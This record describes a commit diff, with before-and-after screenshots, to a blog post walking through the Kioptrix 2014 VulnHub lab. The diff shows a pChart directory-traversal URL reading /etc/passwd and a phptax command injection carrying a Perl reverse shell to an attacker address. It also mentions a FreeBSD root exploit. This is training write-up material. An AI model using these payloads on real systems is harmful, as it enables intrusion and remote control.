

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/vulnhub/2020-02-14-kioptrix #5.md, in a window 1280 px wide and 1400 px high, scrolled down 6438 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2020-02-14-kioptrix #5.md

````diff
--- a/_posts/vulnhub/2020-02-14-kioptrix #5.md
+++ b/_posts/vulnhub/2020-02-14-kioptrix #5.md
@@ -8,7 +8,7 @@
 ---
 
 ## Description
-### [Vulnhub - Kioptrix #4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)
+### [Vulnhub - Kioptrix #4](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)
 As usual, this vulnerable machine is targeted at the beginner. It's not meant for the seasoned pentester or security geek that's been at this sort of stuff for 10 years. Everyone needs a place to start and all I want to do is help in that regard.
 
 Also, before powering on the VM I suggest you remove the network card and re-add it. For some oddball reason it doesn't get its IP (well I do kinda know why but don't want to give any details away). So just add the VM to your virtualization software, remove and then add a network card. Set it to bridge mode and you should be good to go.
@@ -74,7 +74,7 @@
 Shellcodes: No Result
 ```
 
-Essentially we can access any file that the web server has access to using the following url
+Essentially we can access any file that the web server has access to, using the following url
 
 ```bash
  http://kioptrix5.com/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
@@ -117,7 +115,7 @@
 
 ### Firefox Extension User-Agent Switcher and Manager
 
-We can set custom user agent using a `firefox` extension. After setting it to `Mozilla4_browser` we can see a link to a `php` application named `phptax`.'
+We can set custom user agent using a `firefox` extension. After setting it to `Mozilla4_browser` we can see a link to a `php` application named `phptax`.
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix5/phptax.png){: .align-center}
 
@@ -173,7 +171,7 @@
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix5/webshell.png){: .align-center}
 
-After running some commands I found that the system has `nc` and `perl`. But for some reason the `nc` cannot use the `-e` flag that can give us a reverse shell. So lets get a code using `perl`
+After running some commands I found that the system has `nc` and `perl`. But for some reason the `nc` cannot use the `-e` flag that can give us a reverse shell. So lets get a reverse shell using `perl`
 
 ### A Shell Drop Issue
 
@@ -181,7 +179,7 @@
 
 ### Perl Reverse Shell
 
-```perl
+```
 kioptrix5.com:8080/phptax/drawimage.php?pfilez=xxx;perl -MIO -e '$p=fork;exit,if($p);
 foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}
 $c=new IO::Socket::INET(PeerAddr,"192.168.63.3:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);
@@ -199,7 +197,7 @@
 
 ## Root Shell
 
-Root is straight forward. There is [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation](https://www.exploit-db.com/exploits/26368) available. I copied it to the system using `ftp`. Compile it with `gcc` and run to become `root`
+Root is straight forward. There is a [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation](https://www.exploit-db.com/exploits/26368) available. I copied it to the system using `ftp`. Compile it with `gcc` and run to become `root`
 
 Start a ftp server using `python`. You might have to run `sudo pip3 install pyftpdlib`
 
````
Also changed, not shown: other parts of _posts/vulnhub/2020-02-14-kioptrix #5.md (+2 -4 lines).
